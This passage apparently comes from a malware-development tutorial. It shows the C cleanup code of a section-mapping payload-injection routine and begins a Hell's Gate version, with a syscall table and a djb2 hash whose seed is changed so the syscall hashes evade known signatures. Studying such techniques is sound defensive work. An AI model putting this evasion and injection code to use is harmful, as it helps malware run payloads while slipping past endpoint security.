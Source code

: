 ```c
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	if ((STATUS = NtUnmapViewOfSection((HANDLE)-1, pLocalAddress)) != 0) {
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	// Closing the section handle
	if ((STATUS = NtClose(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}

```

### Implementation Using Hell's Gate

The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.

#### Updating The VX_TABLE Structure

```c
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtCreateSection;
	VX_TABLE_ENTRY NtMapViewOfSection;
	VX_TABLE_ENTRY NtUnmapViewOfSection;
	VX_TABLE_ENTRY NtClose;
	VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;
```

#### Updating Seed Value

A new seed value will be used to replace the [old one](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L93) to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.

```c
DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}
```
